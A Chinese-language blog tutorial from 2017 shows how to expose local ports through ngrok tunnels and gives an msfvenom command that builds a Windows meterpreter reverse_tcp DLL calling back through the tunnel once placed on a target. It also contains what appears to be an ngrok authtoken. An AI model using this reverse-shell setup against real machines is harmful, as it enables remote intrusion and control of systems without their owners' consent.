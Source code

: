 ```yaml
---
title: Ngrok加Metasploit实现内网穿透
date: 2017-12-16 12:00:15
tags: 
	- Metasploit
categories:
	- Metasploit
	
---
```




![](https://i.imgur.com/hmIDtin.png)
<!--more-->

#### 实例讲解
##### 0x00.
`demon`之前发了一篇`Ngrok&MSF`(内网穿)的文章，由于没时间，现在正好有时间过来测试下。

感谢`demon`的耐心教导。
 
ngrok 是一个反向代理，通过在公共的端点和本地运行的 Web 服务器之间建立一个安全的通道。ngrok 可捕获和分析所有通道上的流量，便于后期分析和重放。

Ngrok的下载地址:[https://ngrok.com/download](https://ngrok.com/download)



下面以我的Kali Linux 为例子，下载ngrok。
![](https://i.imgur.com/t5PHWUU.png)

解压后得出，ngrok包
 
![](https://i.imgur.com/vXLf7Nc.png)
 

##### 0X01.
我选择将ngrok复制到/bin


![](https://i.imgur.com/euXlQ9K.png)

##### 0X02.HTTP


![](https://i.imgur.com/44jOhtG.png)


##### 1.安装你的token

去`ngrok`的官网找到你的`token`

> `ngrok  authtoken  6RBm_2CfWq3xAJ3XVK`



根据官方文档 使用`http`的时候 使用`ngrok http 80`(将本地`80`端口映射到`ngrok`外网)，比如我们本机开启了`80`端口（`apache`）需要映射到外网。
开启`apache`服务` 80`端口

![](https://i.imgur.com/fQ3EUYY.png)

![](https://i.imgur.com/xSyAcEh.png)

本机中的`localhost`

![](https://i.imgur.com/2Ne8Jk5.png)


图中可以看到，已将本机的`80`端口映射到` ngrok.io`中

> `ngrok http 80`

![](https://i.imgur.com/dHDnZh5.png)


我们可以来验证下： `http://xxxx571a.ngrok.io `中是否有映射。

![](https://i.imgur.com/5j32G17.png)

![](https://i.imgur.com/FSzXSD2.png)

##### 0x03 TCP
 
配置完了`Ngrok` 上个试了下`http`，我再来试试`TCP`
 



我们使用 `ngrok` 帮助参数 `tcp`

![](https://i.imgur.com/0yJPBDQ.png)

`ngrok tcp 6666` 将本机的`6666`映射到`ngrok`的外网中。

![](https://i.imgur.com/wbepUhs.png)

</br>
![](https://i.imgur.com/jzaOSIv.png)


##### 0x04 Metasploit


    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=(ip填写对应的ngrok对应的ip或者对应的ngrok对应的域名地址也可以) LPORT=(端口填写对应的ngrok的映射的端口) -f dll > /opt/x.dll


放入目标机子上得到反弹

![](https://i.imgur.com/hmIDtin.png)


**总结：**

- 利用ngrok,我们可以实现内网穿透。 


